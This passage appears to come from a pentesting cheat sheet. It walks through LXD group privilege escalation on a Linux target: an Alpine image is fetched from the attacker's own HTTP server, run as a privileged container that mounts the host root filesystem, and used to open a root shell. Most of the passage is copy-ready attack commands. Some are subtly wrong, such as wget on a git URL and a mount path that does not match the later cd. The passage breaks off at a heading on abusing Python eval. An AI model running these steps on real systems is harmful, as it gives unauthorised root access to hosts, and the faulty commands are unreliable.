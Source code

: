 ***

* Download an image or build it if necessary

{% code overflow="wrap" lineNumbers="true" %}
```bash
wget https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
```
{% endcode %}

{% hint style="info" %}
We use an image for _Alpine_, but any other light-weight distro can be built and used
{% endhint %}

***

* Mount a server to import and download the image to the target host

{% code overflow="wrap" lineNumbers="true" %}
```bash
# On our machine
python3 -m http.server $port

#On the target machine
wget http://$IP:$port/$filename.tar.gz #The one that comes with the repository
```
{% endcode %}

***

* On the target, import the image and use it to create a container specifying high privileges and mounting the complete filesystem

{% code overflow="wrap" lineNumbers="true" %}
```bash
lxc image import $imageroute --alias $imagename
lxc init $imagename $containername -c security.privileged=true
lxc config device add $containername host-root disk source=/ path=/mnt recursive=true
```
{% endcode %}

***

* Start the container, ask for a shell from it, and access the mount point of the filesystem

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">lxc start $containername
<strong>lxc exec pwned /bin/sh
</strong>cd /mount
</code></pre>

{% hint style="info" %}
The shell will be generated as the _root_ user, having complete permissions on the filesystem
{% endhint %}

## <mark style="color:orange;">Abusing the Python eval function</mark>
